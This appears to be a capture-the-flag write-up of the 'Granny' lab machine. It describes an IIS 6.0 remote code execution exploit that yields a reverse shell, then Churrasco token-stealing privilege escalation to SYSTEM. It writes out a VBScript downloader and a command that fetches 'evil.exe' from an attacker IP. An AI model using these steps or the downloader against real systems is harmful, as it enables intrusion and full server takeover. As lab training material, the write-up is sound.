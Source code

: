 # Granny

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### IIS 6.0

This machine is running an outdated version of Microsoft IIS, which is vulnerable to a RCE exploit.

{% embed url="https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell" %}

Using this, we can gain a reverse shell easily:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Churrasco

We can enumerate the machine using `systeminfo`.

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

This is a really old version of Windows that is outdated and vulnerable to loads of exploits. One exploit is the Churrasco exploit, which works on Windows Server 2003 machines. However, because this machine was so old, it was hard to transfer files over to it using conventional Windows methods.&#x20;

So, we would need to create a `wget` binaruy using vbs.&#x20;

```powershell
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
# Afterwards, you can run this.
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

Afterwards, we can download the binary from here:

{% embed url="https://github.com/Re4son/Churrasco/raw/master/churrasco.exe" %}

The exploit works through impersonating the SYSTEM user to execute commands by stealing the tokens from the worker processes run by the SYSTEM user.&#x20;

The exploit can be used to gain a reverse shell easily via `nc.exe`:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

A listener port would have a shell as SYSTEM after execution.
